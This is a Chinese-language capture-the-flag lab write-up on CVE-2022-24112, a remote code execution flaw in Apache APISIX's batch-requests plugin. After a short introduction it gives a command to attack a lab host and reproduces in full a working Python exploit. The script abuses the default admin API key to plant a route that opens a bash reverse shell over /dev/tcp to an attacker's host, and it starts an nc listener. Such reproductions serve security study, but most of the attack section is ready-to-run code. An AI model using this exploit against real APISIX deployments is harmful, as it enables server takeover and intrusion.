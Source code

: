```yaml
---
title: CVE-2022-24112【RCE】
author: Ghost
date: 2023-12-10
categories:
  - ['春秋云境', '漏洞靶标']
  - 漏洞复现
tags:
  - 'RCE'
---
```


> 参考：[Apache APISIX Dashboard（CVE-2022-24112）命令执行漏洞方式利用\_长白山攻防实验室的博客-CSDN博客](https://blog.csdn.net/include_voidmain/article/details/124096869)

> 注，漏洞的详细分析可以参看上面这篇博文

## 1. Apache APISIX 介绍

Apache Apisix是美国阿帕奇（Apache）基金会的一个云原生的微服务API网关服务。该软件基于 OpenResty 和 etcd 来实现，具备动态路由和插件热加载，适合微服务体系下的 API 管理。

> Apache APISIX 是一个动态、实时、高性能的开源 API 网关，提供负载均衡、动态上游、灰度发布、服务熔断、身份认证、可观测性等丰富的流量管理功能。Apache APISIX 可以帮助企业快速、安全地处理 API 和微服务流量，包括网关、Kubernetes Ingress 和服务网格等。

![](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202308271049677.png)

## 2. 漏洞介绍

Apache APISIX中存在远程代码执行漏洞，该漏洞源于产品的batch-requests插件未对用户的批处理请求进行有效限制。攻击者可通过该漏洞绕过Admin API的IP限制，容易导致远程代码执行。

- 漏洞编号：CVE-2022-24112

- 影响版本：Apache APISIX < 2.12.1，Apache APISIX < 2.10.4 (LTS versions)

- 漏洞类型: 命令执行

## 3. 漏洞复现

### 3.1. 个人有 VPS 的复现

用 [CVE-2022-24112-POC](https://github.com/twseptian/cve-2022-24112) 攻击获取 shell

在 VPS 上开启 nc 监听

```python
python3 poc2.py -t eci-2ze5sddv1nd77pcngx3i.cloudeci1.ichunqiu.com -p 9080 -L VPS_IP -P VPS_PORT
```

脚本攻击后会直接获得shell，接着读取 /flag 即可。

poc2.py【代码备份】

```python
#!/usr/bin/python3
# Exploit Title: Apache APISIX 2.12.1 - Remote Code Execution (RCE)
# Vendor Homepage: https://apisix.apache.org/
# Version: Apache APISIX 1.3 – 2.12.1
# Tested on: Kali Linux
# CVE : CVE-2022-24112

import requests
import sys
import subprocess
import shlex
import argparse

class Interface ():
	def __init__ (self):
		self.red = '\033[91m'
		self.green = '\033[92m'
		self.white = '\033[37m'
		self.yellow = '\033[93m'
		self.bold = '\033[1m'
		self.end = '\033[0m'

	def header(self):
		print('\n    >> Apache APISIX 2.12.1 - Remote Code Execution (RCE)')
		print('    >> by twseptian\n')

	def info (self, message):
		print(f"[{self.white}*{self.end}] {message}")

	def warning (self, message):
		print(f"[{self.yellow}!{self.end}] {message}")

	def error (self, message):
		print(f"[{self.red}x{self.end}] {message}")

	def success (self, message):
		print(f"[{self.green}✓{self.end}] {self.bold}{message}{self.end}")

# Instantiate our interface class
global output
output = Interface()
output.header()

class Exploit:
    def __init__(self, target_ip, target_port, localhost,localport):
        self.target_ip = target_ip
        self.target_port = target_port
        self.localhost = localhost
        self.localport = localport
    
    def get_rce(self):
        headers1 = {
            'Host': '{}:8080'.format(target_ip),
            'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.81 Safari/537.36 Edg/97.0.1072.69',
            'X-API-KEY': 'edd1c9f034335f136f87ad84b625c8f1',
            'Accept': '*/*','Accept-Encoding': 'gzip, deflate',
            'Content-Type': 'application/json',
            'Content-Length': '540','Connection': 'close',
        }
        headers2 = {
            'Host': '{}:8080'.format(target_ip),
            'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.81 Safari/537.36 Edg/97.0.1072.69',
            'X-API-KEY': 'edd1c9f034335f136f87ad84b625c8f1',
            'Accept': '*/*','Accept-Encoding': 'gzip, deflate',
            'Content-Type': 'application/json',
            'Connection': 'close',
        }
        json_data = {
            'headers': {
                'X-Real-IP': '{}:8080'.format(target_ip),
                'X-API-KEY': 'edd1c9f034335f136f87ad84b625c8f1',
                'Content-Type': 'application/json',
            },
            'timeout': 1500,
            'pipeline': [
                { 
                    'path': '/apisix/admin/routes/index','method': 'PUT',
                    'body': '{"uri":"/rms/fzxewh","upstream":{"type":"roundrobin","nodes":{"schmidt-schaefer.com":1}},"name":"wthtzv","filter_func":"function(vars) os.execute(\'bash -c \\\\\\"0<&160-;exec 160<>/dev/tcp/'+localhost+'/'+localport+';/bin/sh <&160 >&160 2>&160\\\\\\"\'); return true end"}',
                },
            ],
        }
        
        output.warning("Take RCE\n")
        response1 = requests.post('http://'+target_ip+':'+target_port+'/apisix/batch-requests', headers=headers1, json=json_data, verify=False)
        listener = "nc -nvlp {}".format(localport)
        cmnd = shlex.split(listener)
        subprocess.Popen(cmnd)
        response2 = requests.get('http://'+target_ip+':'+target_port+'/rms/fzxewh', headers=headers2, verify=False)

def get_args():
    parser = argparse.ArgumentParser(description='Apache APISIX 2.12.1 - Remote Code Execution (RCE)')
    parser.add_argument('-t', '--rhost', dest="target_ip", required=True, action='store', help='Target IP')
    parser.add_argument('-p', '--rport', dest="target_port", required=True, action='store', help='Target Port')
    parser.add_argument('-L', '--lhost', dest="localhost", required=True, action='store', help='Localhost/Local IP')
    parser.add_argument('-P', '--lport', dest="localport", required=True, action='store', help='Localport')
    args = parser.parse_args()
    return args

try:
    args = get_args()
    target_ip = args.target_ip
    target_port = args.target_port
    localhost = args.localhost
    localport = args.localport
    
    exp = Exploit(target_ip, target_port, localhost, localport)
    exp.get_rce()
except KeyboardInterrupt:
    pass
```

当然用这个脚本也行[Apache APISIX 2.12.1 - Remote Code Execution (RCE) - Multiple remote Exploit](https://www.exploit-db.com/exploits/50829)

### 3.2. 本地搭建环境复现

参见 Vulhub 靶场 CVE-2022-24112【RCE】
